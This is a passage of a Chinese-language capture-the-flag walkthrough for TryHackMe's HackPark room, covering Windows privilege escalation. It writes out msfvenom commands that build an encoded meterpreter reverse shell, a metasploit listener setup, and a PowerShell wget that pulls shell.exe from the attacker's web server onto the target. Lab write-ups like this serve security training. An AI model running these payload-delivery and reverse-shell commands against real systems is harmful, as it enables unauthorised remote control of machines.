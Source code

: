 ## windows权限提升

+ 这里重启过目标，target ip: 10.10.23.45  

+ 已获得的netcat会话有点不稳定，使用msfvenom生成另一个反向shell：

   ```
   msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
   ```
   ```
   ┌──(kali㉿kali)-[~/桌面/THM/HackPark]
   └─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.61.123 LPORT=4446 -f exe -o shell.exe
   [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
   Found 1 compatible encoders
   Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
   x86/shikata_ga_nai succeeded with size 381 (iteration=0)
   x86/shikata_ga_nai chosen with final size 381
   Payload size: 381 bytes
   Final size of exe file: 73802 bytes
   Saved as: shell.exe
   ```
+ 运行metasploit并启动一个监听器：

   ```
   use exploit/multi/handler 
   set PAYLOAD windows/meterpreter/reverse_tcp 
   set LHOST your-thm-ip 
   set LPORT listening-port 
   run
   ```
   ```
   msf6 > use exploit/multi/handler
   [*] Using configured payload generic/shell_reverse_tcp
   msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
   PAYLOAD => windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST 10.11.61.123
   LHOST => 10.11.61.123
   msf6 exploit(multi/handler) > set lport 4446
   lport => 4446
   msf6 exploit(multi/handler) > run
   ```

+ 本地启动web服务，已获取的shell拉取shell.exe到目标：

   ```
   ┌──(kali㉿kali)-[~/桌面/THM/HackPark]
   └─$ python3 -m http.server 8000
   Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
   ```
   ```
   cd C:\Windows\Temp
   c:\windows\system32\inetsrv>cd C:\Windows\Temp
   powershell -c wget "http://10.11.61.123:8000/shell.exe" -outfile "shell.exe"
   C:\Windows\Temp>powershell -c wget "http://10.11.61.123:8000/shell.exe" -outfile "shell.exe"
   dir
   C:\Windows\Temp>dir
   Volume in drive C has no label.
   Volume Serial Number is 0E97-C552
   Directory of C:\Windows\Temp
   ···
   12/08/2023  11:09 PM            73,802 shell.exe
   ···
   ```
